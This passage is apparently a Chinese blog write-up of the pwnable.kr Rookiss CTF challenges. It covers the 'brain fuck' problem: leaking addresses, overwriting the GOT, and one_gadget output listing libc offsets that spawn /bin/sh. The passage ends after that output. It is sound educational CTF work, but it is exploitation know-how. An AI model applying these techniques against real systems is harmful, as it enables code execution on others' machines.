 ```yaml
---
layout: post
title: "Pwnable Kr Rookiss Write Up Part One"
---
```


# 0x00 前言

个人感觉刷题的意义就在于诚意，要做一个言行一致的人。精力暂时有限，本篇文章记录了`pwnable.kr`第二部分`Rookiss`的一半题解，其实做题的套路也渐渐懂一些了：先看安全机制，推测是什么问题，再看程序找出问题点，根据上下文环境确定漏洞利用方式，最后是调试验证。



# 0x01 题解

## brain fuck

此题目给我们了.bss段上的一个地址，通过brainfuck功能可以读写一定地址范围内的字节。程序没有开启FULL RELRO还给了bf_libc.so文件，尝试先泄露出函数地址，计算偏移改写GOT表执行shell。但问题是在程序上下文中，没有办法传递`/bin//sh`字符串指针作为`system`函数的参数，考虑使用[one_gadget]来做：

```
$ one_gadget bf_libc.so 
0x3ac5c execve("/bin/sh", esp+0x28, environ)
constraints:
  esi is the GOT address of libc
  [esp+0x28] == NULL

0x3ac5e execve("/bin/sh", esp+0x2c, environ)
constraints:
  esi is the GOT address of libc
  [esp+0x2c] == NULL

0x3ac62 execve("/bin/sh", esp+0x30, environ)
constraints:
  esi is the GOT address of libc
  [esp+0x30] == NULL

0x3ac69 execve("/bin/sh", esp+0x34, environ)
constraints:
  esi is the GOT address of libc
  [esp+0x34] == NULL

0x5fbc5 execl("/bin/sh", eax)
constraints:
  esi is the GOT address of libc
  eax == NULL

0x5fbc6 execl("/bin/sh", [esp])
constraints:
  esi is the GOT address of libc
  [esp] == NULL
```
